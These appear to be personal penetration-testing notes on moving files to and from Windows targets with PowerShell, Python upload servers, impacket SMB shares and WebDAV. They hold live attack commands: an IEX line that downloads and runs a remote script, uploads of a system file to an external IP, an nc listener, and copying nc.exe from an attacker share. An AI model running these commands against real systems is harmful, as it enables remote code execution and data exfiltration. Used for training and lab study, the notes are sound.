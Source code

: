 ### PowerShell Web Uploads
PowerShell doesn't have a built-in upload fucntions, so we need to use **Invoke-WebRequest**.  or **Invoke-RestMethod.** Also we can use uploadserver module for Python, to install it we should use:
```bash
pip3 install uploadserver
```

- **Turn On Web Server with Upload**
```bash
python3 -m uploadserver
```

1. **PowerShell Script to Upload a File to Python Upload Server**
```powershell
PS C:\carnifex17> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
PS C:\carnifex17> Invoke-FileUpload -Uri http://13.13.13.13:8000/upload -File C:\Windows\System32\drivers\etc\hosts
```

2. **PowerShell Base64 Web Upload**. Convert file to base64 and send it using Invoke-WebRequest with POST method. 
```powershell
PS C:\carnifex17> $b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
PS C:\carnifex17> Invoke-WebRequest -Uri http://13.13.13.13:8000/ -Method POST -Body $b64
```
```bash
nc -lvnp 8000
```
```bash
echo <base64> | base64 -d -w 0 > hosts
```

### SMB Downloads
1. **Create the SMB Server**
```bash
sudo impacket-smbserver share -smb2support /tmp/smbshare
```
2. **Copy a File from the SMB Server**
```powershell
C:\carnifex17> copy \\192.168.220.133\share\nc.exe
```
- But in some scenarios there would be an error, which forbids us unauthentificated guest access, so we could creat a smb server with **authentification**
1. **Create the SMB Server with a Username and Password**
```bash
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```
2. **Mount the SMB Server with Username and Password**
```powershell
C:\carnifex17> net use n: \\192.168.220.133\share /user:test test
```

### SMB Uploads
****
SMB Uploads will be more tricky because companies usually block uploads to SMB, cause it could cause a huge problem. BUUUT we could use HTTP or HTTPS protocol in return. It's because when you use SMB, it will first attempt to connect using SMB protocol, and if there's no SMB share available, it'll try to connect using HTTP. But for this we need WebDav protocol, it enables a webserver to behave like a fileserver, which we need. First you need to install it
```bash
sudo pip install wsgidav cheroot
```
1. **Using the WebDav Python module**
```bash
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous
```